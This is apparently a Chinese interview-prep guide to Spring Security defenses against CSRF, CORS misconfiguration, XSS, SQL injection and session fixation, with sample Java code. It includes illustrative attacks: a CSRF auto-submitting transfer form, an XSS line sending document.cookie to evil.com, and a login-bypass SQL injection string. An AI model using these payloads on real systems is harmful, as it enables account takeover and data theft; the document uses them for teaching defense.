



# 安全漏洞防护

## ⭐ 面试重点速览

| 知识模块 | 重点内容 | 面试频率 |
|----------|----------|----------|
| CSRF 攻击防护 | 攻击原理、Token 校验机制、前后端分离为何可关闭 CSRF | 极高 |
| CORS 跨域配置 | addAllowedOrigin vs addAllowedOriginPattern、Spring Security 6.x 变化 | 极高 |
| XSS 攻击防护 | 反射型/存储型/DOM 型 XSS、输出编码、CSP 策略 | 高 |
| SQL 注入防护 | MyBatis #{} vs ${}、预编译原理、输入校验 | 极高 |
| 会话固定攻击 | 攻击原理、sessionFixation().migrateSession() 防御 | 中高 |
| 密码安全 | BCrypt 强度设置、密码长度限制、暴力破解防护 | 中 |

---

## 一、⭐ CSRF 攻击原理与防护

### 1.1 CSRF（Cross-Site Request Forgery）是什么？

**CSRF（跨站请求伪造）** 是一种攻击方式，攻击者诱导用户在**已登录状态下**访问恶意网站，利用浏览器自动携带 Cookie 的特性，**冒用用户身份**向目标网站发送恶意请求。



### 1.2 CSRF 攻击示例

```html
<!-- 恶意网站 evil.com 的页面 -->
<html>
<body>
    <h1>恭喜中奖！点击领取</h1>
    <!-- 方式一：隐藏表单自动提交 -->
    <form id="csrfForm" action="https://bank.com/transfer" method="POST">
        <input type="hidden" name="toAccount" value="attacker">
        <input type="hidden" name="amount" value="10000">
    </form>
    <script>document.getElementById('csrfForm').submit();</script>

    <!-- 方式二：img 标签发送 GET 请求 -->
    
</body>
</html>
```

### 1.3 Spring Security 的 CSRF 防护机制

Spring Security 默认使用 **同步器令牌模式（Synchronizer Token Pattern）** 防护 CSRF：

```java
// 1. 服务端生成 CSRF Token，存入 HttpSession
// 2. 页面渲染时，将 Token 嵌入表单隐藏域或请求头
// 3. 请求到达时，CsrfFilter 校验请求中的 Token 与 Session 中的 Token 是否一致
```

```html
<!-- 传统表单模式：CSRF Token 嵌入隐藏域 -->
<form action="/transfer" method="POST">
    <input type="hidden" name="_csrf" value="${_csrf.token}">
    <input type="text" name="toAccount">
    <input type="text" name="amount">
    <button type="submit">转账</button>
</form>
```

```javascript
// 前后端分离模式：CSRF Token 通过 Cookie 返回，前端读取后放入请求头
// 后端配置：
// http.csrf(csrf -> csrf
//     .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse()));

// 前端 Axios 拦截器自动添加 CSRF Token
axios.interceptors.request.use(config => {
    const csrfToken = getCookie('XSRF-TOKEN');
    if (csrfToken) {
        config.headers['X-XSRF-TOKEN'] = csrfToken;
    }
    return config;
});
```

### 1.4 ⭐ 前后端分离为何可以关闭 CSRF？

```java
// 前后端分离项目通常关闭 CSRF
http.csrf(csrf -> csrf.disable());
```

**核心原因**：CSRF 攻击依赖浏览器自动携带 Cookie。前后端分离架构中：

| 条件 | 传统 Session 模式 | 前后端分离 JWT 模式 |
|------|------------------|--------------------|
| 认证方式 | Cookie（浏览器自动携带） | Authorization 头（JS 手动设置） |
| 浏览器自动携带凭证？ | 是（Cookie） | 否（自定义请求头） |
| CSRF 攻击可行？ | 是 | 否（攻击者无法设置自定义头） |

**关键点**：CSRF 攻击之所以能成功，是因为浏览器**自动**在跨域请求中携带 Cookie。但 JWT 的 Token 是放在 `Authorization` 请求头中的，由 JavaScript **手动**设置，攻击者无法通过跨站请求设置自定义请求头（浏览器同源策略限制）。

::: warning 关闭 CSRF 的前提条件
1. 认证方式**不依赖**浏览器自动携带的 Cookie（使用 JWT + Authorization 头）
2. 前端通过 JavaScript 手动设置认证头（而非依赖 Cookie）
3. 如果使用 Cookie 存储 Token（即使是 JWT），仍然需要 CSRF 防护
:::

---

## 二、CORS 跨域配置

### 2.1 CORS（Cross-Origin Resource Sharing）是什么？

CORS 是浏览器的一种安全机制，用于控制**跨域 HTTP 请求**。当浏览器发现请求的目标域名与当前页面域名不同时，会触发 CORS 检查。

```java
// 当前页面：http://localhost:3000（前端）
// 请求目标：http://localhost:8080/api/users（后端）
// 域名不同 → 跨域请求 → 浏览器发送 CORS 预检请求
```

### 2.2 ⭐ addAllowedOrigin vs addAllowedOriginPattern

这是 Spring Security 6.x 中的高频考点：

```java
// ❌ Spring Security 5.x 写法（6.x 已废弃）
// 不支持通配符 + allowCredentials(true) 同时使用
config.setAllowedOrigins(List.of("http://localhost:3000"));

// ✅ Spring Security 6.x 写法
// 使用 addAllowedOriginPattern 替代，支持通配符
CorsConfiguration config = new CorsConfiguration();
config.setAllowedOriginPatterns(List.of("*")); // 使用 Pattern 匹配
config.setAllowCredentials(true);               // 可以同时使用
```

**为什么 addAllowedOrigin 被废弃？**

| 方法 | 支持通配符 `*` | 支持 `allowCredentials` | 灵活性 |
|------|---------------|------------------------|--------|
| `addAllowedOrigin` | 不支持（`*` 是字面量） | 不能同时使用 | 低 |
| `addAllowedOriginPattern` | 支持（`*`、`http://*.example.com`） | 可以同时使用 | 高 |

### 2.3 Spring Security 6.x CORS 完整配置

```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            // 方式一：使用 Spring 容器中的 CorsConfigurationSource Bean
            .cors(cors -> cors.configurationSource(corsConfigurationSource()))
            // ... 其他配置
            ;
        return http.build();
    }

    /**
     * CORS 配置源
     * Spring Security 6.x 推荐使用 setAllowedOriginPatterns
     */
    @Bean
    public CorsConfigurationSource corsConfigurationSource() {
        CorsConfiguration config = new CorsConfiguration();

        // 1. 允许的源（使用 Pattern 匹配）
        config.setAllowedOriginPatterns(List.of(
            "http://localhost:3000",       // 开发环境
            "https://*.example.com",       // 生产环境泛域名
            "https://app.example.com"      // 生产环境特定域名
        ));

        // 2. 允许的 HTTP 方法
        config.setAllowedMethods(List.of(
            "GET", "POST", "PUT", "DELETE", "PATCH", "OPTIONS"
        ));

        // 3. 允许的请求头
        config.setAllowedHeaders(List.of(
            "Authorization", "Content-Type", "X-Requested-With"
        ));

        // 4. 允许携带凭证（Cookie、Authorization 头）
        config.setAllowCredentials(true);

        // 5. 预检请求缓存时间（秒）
        config.setMaxAge(3600L);

        UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
        source.registerCorsConfiguration("/**", config);
        return source;
    }
}
```

### 2.4 CORS 预检请求（Preflight Request）

当请求满足以下任一条件时，浏览器会先发送 OPTIONS 预检请求：

- 使用 `PUT`、`DELETE`、`PATCH` 等非简单方法
- `Content-Type` 为 `application/json`（非简单类型）
- 携带自定义请求头（如 `Authorization`）



---

## 三、XSS 攻击防护

### 3.1 XSS（Cross-Site Scripting）是什么？

XSS 攻击是指攻击者在网页中**注入恶意脚本**，当其他用户浏览该网页时，脚本在用户浏览器中执行，从而窃取 Cookie、篡改页面、重定向等。

**三种 XSS 类型：**

| 类型 | 攻击方式 | 持久性 | 危害 |
|------|----------|--------|------|
| **反射型 XSS** | 恶意脚本在 URL 参数中，服务端直接返回 | 非持久 | 需要诱导点击 |
| **存储型 XSS** | 恶意脚本存储在数据库，用户访问时输出 | 持久 | 最严重，所有用户受影响 |
| **DOM 型 XSS** | 前端 JS 直接操作 DOM 导致 | 非持久 | 纯前端漏洞 |

```java
// 存储型 XSS 示例：
// 攻击者在评论中插入恶意脚本
// 评论内容：<script>fetch('http://evil.com/steal?cookie=' + document.cookie)</script>
// 其他用户访问页面时，评论被渲染，脚本执行，Cookie 被窃取
```

### 3.2 XSS 防护策略

#### 策略一：输出编码（最核心）

```java
/**
 * XSS 过滤器 —— 对用户输入进行 HTML 转义
 * 将 <script> 转义为 &lt;script&gt;，浏览器不会执行
 */
@Component
public class XssFilter implements Filter {

    @Override
    public void doFilter(ServletRequest request, ServletResponse response,
                         FilterChain chain) throws IOException, ServletException {
        // 包装请求，重写 getParameter 方法进行 HTML 转义
        XssHttpServletRequestWrapper wrapper =
                new XssHttpServletRequestWrapper((HttpServletRequest) request);
        chain.doFilter(wrapper, response);
    }
}

/**
 * 自定义 RequestWrapper，对请求参数进行 HTML 转义
 */
public class XssHttpServletRequestWrapper extends HttpServletRequestWrapper {

    public XssHttpServletRequestWrapper(HttpServletRequest request) {
        super(request);
    }

    @Override
    public String getParameter(String name) {
        String value = super.getParameter(name);
        return cleanXss(value);
    }

    @Override
    public String[] getParameterValues(String name) {
        String[] values = super.getParameterValues(name);
        if (values == null) return null;
        return Arrays.stream(values)
                .map(this::cleanXss)
                .toArray(String[]::new);
    }

    /**
     * HTML 转义核心方法
     */
    private String cleanXss(String value) {
        if (value == null) return null;
        return value
            .replace("&", "&amp;")
            .replace("<", "&lt;")
            .replace(">", "&gt;")
            .replace("\"", "&quot;")
            .replace("'", "&#x27;")
            .replace("/", "&#x2F;");
    }
}
```

#### 策略二：CSP（Content-Security-Policy）策略

CSP 是浏览器级别的安全机制，通过 HTTP 响应头告诉浏览器允许加载哪些资源：

```java
/**
 * 通过 SecurityConfig 配置 CSP 响应头
 */
@Bean
public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
    http
        .headers(headers -> headers
            .contentSecurityPolicy(csp -> csp
                .policyDirectives(
                    "default-src 'self'; " +          // 默认只允许同源
                    "script-src 'self' 'unsafe-inline'; " + // 脚本只允许同源
                    "style-src 'self' 'unsafe-inline'; " +  // 样式只允许同源
                    "img-src 'self' data: https:; " +       // 图片允许同源和 HTTPS
                    "font-src 'self'; " +
                    "frame-ancestors 'none'; " +     // 禁止被嵌入 iframe（防点击劫持）
                    "form-action 'self'"             // 表单只能提交到同源
                )
            )
        );
    return http.build();
}
```

```java
// 也可以在 Controller 中单独设置 CSP 头
@GetMapping("/api/content")
public ResponseEntity<String> getContent() {
    return ResponseEntity.ok()
        .header("Content-Security-Policy",
            "default-src 'self'; script-src 'self'")
        .body("<div>安全内容</div>");
}
```

#### 策略三：HttpOnly + Secure Cookie

```java
// application.yml 配置
server:
  servlet:
    session:
      cookie:
        http-only: true   # JS 无法读取 Cookie（防 XSS 窃取）
        secure: true      # 仅 HTTPS 传输（防中间人攻击）
        same-site: strict # 严格同站策略（防 CSRF）
```

::: tip 三层 XSS 防护体系
1. **输入层**：XSS 过滤器对用户输入进行 HTML 转义
2. **输出层**：模板引擎（如 Thymeleaf 的 `th:text` vs `th:utext`）默认转义
3. **浏览器层**：CSP 策略限制脚本执行来源
:::

---

## 四、SQL 注入防护

### 4.1 SQL 注入原理

SQL 注入是指攻击者通过**拼接恶意 SQL 片段**，改变原本 SQL 语句的语义，从而执行非预期的数据库操作。

```java
// 危险代码：字符串拼接 SQL
String username = request.getParameter("username"); // 输入：' OR '1'='1' --
String sql = "SELECT * FROM sys_user WHERE username = '" + username + "'";

// 实际执行的 SQL：
// SELECT * FROM sys_user WHERE username = '' OR '1'='1' --'
//                                          ↑ 条件永远为真 ↑ 注释掉后面的内容
// 结果：返回所有用户数据！
```

### 4.2 ⭐ MyBatis #{} vs ${}（面试高频）

这是 MyBatis 中最核心的安全知识点：

```java
// ====== #{}：预编译占位符（安全） ======
@Select("SELECT * FROM sys_user WHERE username = #{username}")
User selectByUsername(String username);
// 实际执行：SELECT * FROM sys_user WHERE username = ?
// MyBatis 使用 PreparedStatement，参数被安全地绑定
// 攻击者输入：' OR '1'='1' --  →  被当作普通字符串处理，不会改变 SQL 语义

// ====== ${}：字符串拼接（危险） ======
@Select("SELECT * FROM sys_user WHERE username = '${username}'")
User selectByUsernameUnsafe(String username);
// 实际执行：SELECT * FROM sys_user WHERE username = '用户输入的值'
// 攻击者输入：' OR '1'='1' --  →  SQL 注入成功！
```

### 4.3 预编译原理

```java
// 预编译（PreparedStatement）的工作流程
// 1. 发送 SQL 模板到数据库
//    PREPARE stmt FROM 'SELECT * FROM sys_user WHERE username = ?'
// 2. 数据库解析 SQL 模板，生成执行计划（确定了 SQL 语义）
// 3. 发送参数值（此时参数只能是"数据"，不能是"SQL 片段"）
//    EXECUTE stmt USING 'zhangsan'
// 4. 数据库执行（参数无论是什么，都不会改变 SQL 语义）

// 关键：SQL 语义在参数绑定之前就确定了，参数不可能改变 SQL 结构
```

### 4.4 ${} 的安全使用场景

`${}` 并非完全不可用，在以下场景中是安全的（因为参数不是用户输入，或已做严格校验）：

```java
// 安全场景 1：动态表名（非用户输入，代码内部指定）
// 分表场景：user_0, user_1, user_2
@Select("SELECT * FROM ${tableName} WHERE id = #{id}")
User selectByTable(String tableName, Long id);

// 安全场景 2：动态排序字段（白名单校验后使用）
private static final Set<String> ALLOWED_COLUMNS = Set.of("id", "username", "create_time");

public List<User> listByOrder(String orderBy) {
    // ⚠️ 必须做白名单校验！
    if (orderBy == null || !ALLOWED_COLUMNS.contains(orderBy)) {
        throw new IllegalArgumentException("非法的排序字段：" + orderBy);
    }
    return mapper.listByOrder(orderBy);
}

@Select("SELECT * FROM sys_user ORDER BY ${orderBy} DESC")
List<User> listByOrder(String orderBy);
```

### 4.5 多层 SQL 注入防护

```java
// 第一层：参数校验（Controller 层）
@PostMapping("/users")
public Result<Void> add(@Valid @RequestBody UserDTO dto) {
    // @Valid 触发 JSR-303 校验
    return Result.ok();
}

// DTO 中添加校验注解
public class UserDTO {
    @NotBlank(message = "用户名不能为空")
    @Size(min = 3, max = 20, message = "用户名长度 3-20")
    @Pattern(regexp = "^[a-zA-Z0-9_]+$", message = "用户名只能包含字母数字下划线")
    private String username;
}

// 第二层：MyBatis #{} 预编译（Mapper 层）
@Select("SELECT * FROM sys_user WHERE username = #{username} AND status = 1")
User selectByUsername(String username);

// 第三层：数据库权限最小化原则
// 应用账号只授予 SELECT、INSERT、UPDATE、DELETE 权限，不授予 DROP、ALTER 等 DDL 权限
```

::: danger 常见 SQL 注入误区
"我用了 ORM 框架（如 MyBatis），就不会有 SQL 注入了" —— 这是错误认知！

即使用了 MyBatis，如果使用 `${}` 拼接用户输入，仍然存在 SQL 注入风险。**核心原则：所有用户输入必须使用 `#{}` 预编译**。
:::

---

## 五、会话固定攻击与 Session 管理

### 5.1 会话固定攻击（Session Fixation）原理

攻击者先获取一个有效的 Session ID，然后诱导用户使用此 Session ID 登录，用户登录后，攻击者使用相同的 Session ID 访问系统，从而**冒充用户身份**。



### 5.2 Spring Security 的会话固定防护

Spring Security 提供了四种会话固定防护策略：

```java
@Bean
public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
    http
        .sessionManagement(session -> session
            .sessionFixation(sessionFixation -> sessionFixation
                .migrateSession()  // 登录后迁移 Session（默认）
                // 其他选项：
                // .newSession()      // 登录后创建全新 Session（不复制属性）
                // .none()            // 不防护（不推荐）
                // .changeSessionId() // 仅改变 Session ID（Servlet 3.1+）
            )
        );
    return http.build();
}
```

| 策略 | 说明 | Session ID 变化 | Session 属性 |
|------|------|----------------|-------------|
| **migrateSession()**（默认） | 登录后创建新 Session，复制旧属性 | 变 | 保留 |
| **newSession()** | 登录后创建全新 Session | 变 | 不保留 |
| **changeSessionId()** | 仅改变 Session ID（Servlet 3.1+） | 变 | 保留 |

### 5.3 Session 并发控制

```java
@Bean
public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
    http
        .sessionManagement(session -> session
            .maximumSessions(1)                    // 同一账号最多 1 个会话
            .maxSessionsPreventsLogin(false)       // false: 新登录踢掉旧会话
            .expiredSessionStrategy(event -> {     // 会话过期处理
                event.getResponse().setContentType("application/json;charset=UTF-8");
                event.getResponse().getWriter()
                    .write("{\"code\":401,\"msg\":\"您的账号在其他设备登录\"}");
            })
        );
    return http.build();
}
```

### 5.4 完整的 Session 安全配置

```java
@Bean
public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
    http
        .sessionManagement(session -> session
            // 1. 会话固定防护：登录后迁移 Session
            .sessionFixation(fixation -> fixation.migrateSession())

            // 2. 会话创建策略
            .sessionCreationPolicy(SessionCreationPolicy.IF_REQUIRED)
            // 可选值：
            // ALWAYS    - 总是创建 Session（即使不需要）
            // IF_REQUIRED - 需要时才创建（默认）
            // NEVER     - 不创建 Session，但使用已存在的
            // STATELESS - 完全无状态（前后端分离、JWT 场景）

            // 3. 并发控制
            .maximumSessions(1)
            .maxSessionsPreventsLogin(false)
        );
    return http.build();
}
```

::: warning 前后端分离的 Session 策略
前后端分离 + JWT 认证的项目，应该设置 `SessionCreationPolicy.STATELESS`，完全禁用 Session 创建，因为认证信息都在 JWT Token 中携带，不需要 Session。
:::

---

## 六、其他安全最佳实践

### 6.1 密码安全

```java
// 1. 使用 BCrypt 加密，设置合适的强度
@Bean
public PasswordEncoder passwordEncoder() {
    // 强度 10 = 2^10 = 1024 轮哈希，每次编码约 100ms
    // 强度 12 = 2^12 = 4096 轮哈希，每次编码约 400ms
    // 推荐：登录场景 10，注册场景 12
    return new BCryptPasswordEncoder(10);
}

// 2. 密码长度限制
// BCrypt 限制 72 字节，超长密码先 SHA-256 处理
public String encodeLongPassword(String rawPassword) {
    if (rawPassword.length() > 72) {
        // 先 SHA-256 哈希，再 BCrypt（避免截断问题）
        String sha256Hex = DigestUtils.sha256Hex(rawPassword);
        return passwordEncoder.encode(sha256Hex);
    }
    return passwordEncoder.encode(rawPassword);
}

// 3. 登录失败次数限制（防暴力破解）
@Service
public class LoginAttemptService {
    private static final int MAX_ATTEMPT = 5;
    private final LoadingCache<String, AtomicInteger> attemptsCache;

    public LoginAttemptService() {
        attemptsCache = CacheBuilder.newBuilder()
            .expireAfterWrite(15, TimeUnit.MINUTES) // 15 分钟后过期
            .build(new CacheLoader<String, AtomicInteger>() {
                @Override
                public AtomicInteger load(String key) {
                    return new AtomicInteger(0);
                }
            });
    }

    public void loginFailed(String username) {
        attemptsCache.getUnchecked(username).incrementAndGet();
    }

    public boolean isBlocked(String username) {
        return attemptsCache.getUnchecked(username).get() >= MAX_ATTEMPT;
    }
}
```

### 6.2 HTTP 安全响应头

```java
@Bean
public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
    http
        .headers(headers -> headers
            // X-Content-Type-Options：禁止 MIME 类型嗅探
            .contentTypeOptions(Customizer.withDefaults())

            // X-Frame-Options：禁止页面被嵌入 iframe（防点击劫持）
            .frameOptions(frame -> frame.deny())

            // X-XSS-Protection：启用浏览器 XSS 过滤器
            .xssProtection(xss -> xss.headerValue(XXssProtectionHeaderWriter
                    .HeaderValue.ENABLED_MODE_BLOCK))

            // Strict-Transport-Security：强制 HTTPS（HSTS）
            .httpStrictTransportSecurity(hsts -> hsts
                .maxAgeInSeconds(31536000)  // 一年
                .includeSubDomains(true))

            // Content-Security-Policy
            .contentSecurityPolicy(csp -> csp
                .policyDirectives("default-src 'self'"))
        );
    return http.build();
}
```

---

## ⭐ 面试高频问题汇总

### Q1：CSRF 攻击的原理是什么？为什么前后端分离可以不开启 CSRF 防护？

**原理**：攻击者诱导用户在已登录状态下访问恶意网站，利用浏览器自动携带 Cookie 的特性，冒用用户身份向目标网站发送恶意请求。

**前后端分离不需要 CSRF 的原因**：CSRF 依赖 Cookie 自动携带机制。前后端分离使用 JWT 时，Token 存放在 `Authorization` 请求头中，由 JavaScript 手动设置。攻击者无法通过跨站请求设置自定义请求头（浏览器同源策略限制），因此 CSRF 攻击无法成功。

### Q2：addAllowedOrigin 和 addAllowedOriginPattern 有什么区别？为什么 Spring Security 6.x 推荐后者？

| 方法 | 通配符 | 与 allowCredentials 并存 | 泛域名 |
|------|--------|------------------------|--------|
| addAllowedOrigin | 不支持（`*` 是字面量） | 不能 | 不支持 |
| addAllowedOriginPattern | 支持 | 可以 | `http://*.example.com` |

Spring Security 6.x 推荐 `addAllowedOriginPattern` 因为它更灵活，支持通配符匹配，且可以与 `allowCredentials=true` 同时使用。

### Q3：XSS 攻击有哪几种类型？如何防护？

| 类型 | 攻击方式 | 核心防护 |
|------|----------|----------|
| 反射型 XSS | URL 参数注入 | 输出编码 |
| 存储型 XSS | 数据库存储 | 输入过滤 + 输出编码 |
| DOM 型 XSS | 前端 JS 操作 | 安全的 DOM API |

三层防护：输入过滤（XSS Filter）→ 输出编码（模板引擎默认转义）→ CSP 策略（浏览器限制脚本来源）。

### Q4：MyBatis 中 #{} 和 ${} 的区别是什么？为什么 #{} 能防止 SQL 注入？

| 维度 | #{} | ${} |
|------|-----|-----|
| 实现方式 | PreparedStatement 预编译占位符 | 字符串拼接 |
| SQL 注入防护 | 安全（参数是数据，不是 SQL 片段） | 危险（参数直接拼入 SQL） |
| 使用场景 | 所有用户输入参数 | 动态表名、动态列名（需白名单校验） |

`#{}` 使用预编译，SQL 语义在参数绑定前就确定了，参数无论是什么都不会改变 SQL 结构。

### Q5：什么是会话固定攻击？Spring Security 如何防护？

**会话固定攻击**：攻击者获取一个有效的 Session ID，诱导用户使用此 Session ID 登录，用户登录后攻击者使用相同 Session ID 冒充用户。

**Spring Security 防护**：默认策略 `sessionFixation().migrateSession()`，用户登录成功后创建一个新的 Session，复制旧 Session 的属性，从而使攻击者手中的 Session ID 失效。

### Q6：如何防止暴力破解登录？

1. **登录失败次数限制**：同一账号/IP 连续失败 N 次后锁定 M 分钟
2. **验证码**：失败一定次数后要求输入验证码
3. **BCrypt 慢哈希**：BCrypt 故意设计得慢，增加暴力破解成本
4. **账号锁定**：连续失败超过阈值后锁定账号
5. **IP 限流**：同一 IP 频繁请求登录接口时进行限流

### Q7：Spring Security 默认开启了哪些安全防护？有哪些是需要手动配置的？

| 默认开启 | 需要手动配置 |
|----------|-------------|
| CSRF 防护 | CORS 跨域（需配置 CorsConfigurationSource） |
| 会话固定防护（migrateSession） | 密码编码器（6.x 必须显式声明） |
| X-Content-Type-Options | CSP 内容安全策略 |
| X-Frame-Options（DENY） | 登录失败次数限制 |
| X-XSS-Protection | 验证码 |
| HSTS（需配置 HTTPS） | SQL 注入防护（需开发规范保证） |

---

## 面试追问环节

**Q：如果你的项目同时支持 Web 端（Cookie + Session）和移动端（JWT），如何统一处理安全防护？**

通过配置多个 `SecurityFilterChain`：
1. Web 端 Chain：`@Order(1)`，`securityMatcher("/web/**")`，使用 Session 认证，开启 CSRF
2. 移动端 Chain：`@Order(2)`，`securityMatcher("/api/**")`，使用 JWT 认证，关闭 CSRF

**Q：简述一个完整的安全防护体系应该包含哪些层面？**

1. **传输层**：HTTPS + HSTS
2. **认证层**：密码加密 + 暴力破解防护 + 多因素认证
3. **授权层**：RBAC + 方法级权限控制 + 数据权限
4. **攻击防护**：CSRF + XSS + SQL 注入 + 会话固定
5. **监控层**：登录日志 + 异常行为告警 + 审计日志
6. **运维层**：依赖漏洞扫描 + 定期安全更新